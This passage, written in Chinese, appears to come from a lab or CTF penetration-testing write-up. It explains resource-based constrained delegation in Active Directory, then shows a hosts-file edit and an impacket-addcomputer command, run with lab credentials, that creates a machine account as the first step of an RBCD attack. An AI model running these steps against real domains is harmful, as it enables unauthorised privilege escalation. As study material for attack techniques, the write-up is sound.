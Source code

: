 然后开始分析

![img](img/image_20240703-170354.png)

## 172.22.15.35 RBCD

:::info RBCD

RBCD 在 Windows 2012 才引入，08 是没有这个概念的

RBCD 和传统的约束委派的区别就是，约束是在资源服务器上进行配置的，传统的约束委派中，资源服务器只能被动的接受委派，是否能够委派到资源服务器由委派服务器进行控制

RBCD 可以通过 msDS-AllowedToActOnBehalfOfOtherIdentity 属性来控制委派服务器是否能够委派任意用户来访问自己

:::

添加 hosts 记录

```shell
┌──(root ㉿ kali)-[~]
└─# echo "172.22.15.35 XR-0687.xiaorang.lab" >> /etc/hosts
```

添加机器账户

```shell
┌──(randark ㉿ kali)-[~]
└─$ proxychains -q impacket-addcomputer xiaorang.lab/lixiuying:'winniethepooh' -dc-ip 172.22.15.13 -dc-host xiaorang.lab -computer-name 'randark$' -computer-pass 'admin123###'
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Successfully added machine account randark$ with password admin123###.
```
